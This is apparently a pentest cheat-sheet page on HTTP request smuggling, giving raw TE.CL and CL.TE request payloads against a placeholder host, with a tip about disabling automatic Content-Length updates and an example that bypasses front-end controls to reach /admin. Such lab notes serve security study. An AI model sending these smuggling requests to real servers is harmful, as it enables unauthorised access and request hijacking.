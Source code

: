 ### <mark style="color:yellow;">**TE.CL**</mark>

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0\r\n
\r\n
```

`7b` -> all chars from `GET` until `x=`

`Content-Legth: 4` -> `7` `c` `\r` `\n`

{% hint style="info" %}
**Note**: Update Content-Length must be unchecked
{% endhint %}

## <mark style="color:yellow;">Exploitation</mark> <a href="#using-http-request-smuggling-to-bypass-front-end-security-controls" id="using-http-request-smuggling-to-bypass-front-end-security-controls"></a>

### <mark style="color:yellow;">Bypass front-end security controls</mark> <a href="#using-http-request-smuggling-to-bypass-front-end-security-controls" id="using-http-request-smuggling-to-bypass-front-end-security-controls"></a>

<mark style="color:yellow;">**CL.TE**</mark>

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```
